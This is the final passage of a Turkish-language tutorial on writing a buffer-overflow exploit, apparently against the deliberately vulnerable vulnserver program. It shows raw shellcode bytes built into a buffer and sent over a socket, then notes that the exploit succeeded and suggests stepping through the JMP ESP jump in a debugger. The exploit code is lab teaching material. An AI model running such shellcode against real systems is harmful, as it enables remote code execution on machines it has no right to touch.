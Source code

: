     mesaj += "\x57\x10\x80\xfa\x23\xaa\x9a\x71\x69\x0b\x9a\x6e\x6d"
    mesaj += "\x7f\xd5\xfb\x46\x0b\xe4\x15\x97\xf4\xd6\x29\x24\xa6"
    mesaj += "\x9d\x69\xa1\xb0\x5c\xa6\x47\xbe\x99\xd3\xac\xfb\x59"
    mesaj += "\x07\x65\x89\x40\xcc\x2f\x55\x82\x39\xa9\x1e\x88\xf6"
    mesaj += "\xbd\x7b\x8d\x09\x29\xf0\xa9\x82\xac\xef\x3b\xd0\x8a"
    mesaj += "\xf3\x5a\x1b\x60\x03\xb4\x4f\x0c\xf1\x4f\xad\x67\x74"
    mesaj += "\x01\x3f\x94\xda\x76\xa0\x9b\x24\x79\x57\x26\xdf\x3d"
    mesaj += "\x19\x71\x3d\x32\x62\x9d\xe6\xe7\x84\x10\x19\xf8\xab"
    mesaj += "\xa4\xa3\x0f\x3b\xdb\x47\x30\xfa\x4b\xab\x02\xd2\xef"
    mesaj += "\xa3\x17\x59\x95\x41\x50\xc1\x71\xac\xe9\x1f\x2f\x4f"
    mesaj += "\xbc\xdb\x59\x6d\x6f\x58\xf1\xd0\xdd\x22\x85\x09\xfa"
    mesaj += "\x08\x62\x50\xfd\x53\x8d\xfb\x73\x94\x2a\xdc\x1b\x86"
    mesaj += "\xbf\x65\xb3\x3e\x0e\xf3\x6b\xd1\xbf\x20\xe3\x71\xe4"
    mesaj += "\xdc\x7d\x6a\x8c\x89\x25\x4c\x6d\x22\xf6\xeb\x0c\xc0"
    mesaj += "\x9e\x94\xaf\x56\x36\x32\x10\xf3\xad\xe2\x38\xbc\x4c"
    mesaj += "\x90\xd1\x73\x46\xdc\x6e\x50\x49\x55\x8f\xa9\xbb\x37"
    mesaj += "\x03\x9b\x69\x48\x73\x2a\x4e\xe6\x8b\x18\x46"

    # Mesajın gönderilmesi
    Baglanti.send(mesaj)

    #Cevap ?
    gelencevap=Baglanti.recv(buf)
    print gelencevap

    # Soketin Kapatılması
    Baglanti.close()

Evet, artık sona geldik. Şimdi test zamanı! Sanal makinede tekrar zafiyetli yazılımı çalıştıralım ve ardından kodladığımız exploiti deneyelim.

![](/files/garidegariiii.png)

Görüldüğü üzere exploit çalıştı. 

Son olarak eklemek istediğim bir şey var, exploit çalışmadan önce olanları güzelce görmek için essfunc.dll içerisinde bulduğumuz `JMP ESP` instructionına **BP** koyun, ardından exploiti çalıştırıp **F8** ile step by step devam ederseniz olayları daha net görebilirsiniz.
